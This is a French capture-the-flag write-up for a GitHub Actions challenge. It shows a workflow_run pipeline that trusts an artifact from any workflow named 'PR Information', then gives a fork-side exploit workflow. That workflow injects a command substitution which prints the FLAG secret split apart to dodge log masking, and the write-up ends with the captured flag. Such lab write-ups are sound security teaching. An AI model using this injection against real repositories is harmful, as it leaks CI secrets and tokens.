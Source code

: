 # D-8 GitHub Workflows - Iran

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le workflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Iran

on:
  workflow_run:
    workflows: ["PR Information"]
    types:
      - completed

permissions: 
  pull-requests: read
  contents: read
  actions: read

jobs:
  tehran:
    if: github.event.workflow_run.conclusion == 'success'
    timeout-minutes: 5
    runs-on: ubuntu-latest
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      FLAG: ${{ secrets.FLAG_IRAN }}
    steps:
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
          github-token: ${{ secrets.GITHUB_TOKEN }}
          run-id: ${{ github.event.workflow_run.id }}
      - name: Parse artifact with awk
        id: parser
        run: |
          additions=$(awk -F '"' '/Additions/ {print $2}' pr_details.md)
          echo "additions=$additions" >> "$GITHUB_OUTPUT"
      - run: |
          echo "Number of additions: ${{ steps.parser.outputs.additions }}"

```

Workflow secondaire:

```yaml
name: PR Information
on:
  pull_request_target:
    types:
      - opened
      - edited
      - synchronize

jobs:
  build:
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions:
      contents: read
      actions: write
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo " \
          ### PR Details \
          * **Author**: @${{ github.event.pull_request.user.login }} \
          * **Commits**: ${{ github.event.pull_request.commits }} \
          * **Changes**: ${{ github.event.pull_request.changed_files }} files \
          * **Additions**: "${{ github.event.pull_request.additions }}" \
          * **Deletions**: "${{ github.event.pull_request.deletions }}" \
          " > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md

  comment:
    timeout-minutes: 5
    needs: build
    runs-on: ubuntu-latest
    permissions:
      pull-requests: write
      actions: read
      contents: read
    steps:
      - uses: actions/checkout@v4
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
      - name: Comment on PR
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        run: |
          gh pr comment ${{ github.event.pull_request.number }} --body-file pr_details.md

```


### Trouver comment activer le workflow

Ce workflow est dépendant d'un autre workflow ayant pour nom "PR Information".


Le premier workflow lit un fichier créer par "PR Information" et affiche l'information dans la console.

### Trouver la faille dans le workflow

Puisque le workflow dépend seulement d'un workflow ayant pour nom "PR Information". Rien n'empêche de créer notre propre workflow et d'écrire ce que l'on veut dans l'archive. 

### Exploit

En activant les github actions dans le fork et en créant un nouveau workflow qui s'execute dans les PR, on peut forcer le premier workflow à s'executer. 

```yaml
name: PR Information

on: [pull_request]

jobs:
  job:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo "Additions: \"\$(echo \${FLAG:0:8}--\${FLAG:8} )\"" > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md
```

![workflow](./assets/iran-workflow.png)

---
## Flag:

`flag-iran-e8aad09cfa0a`
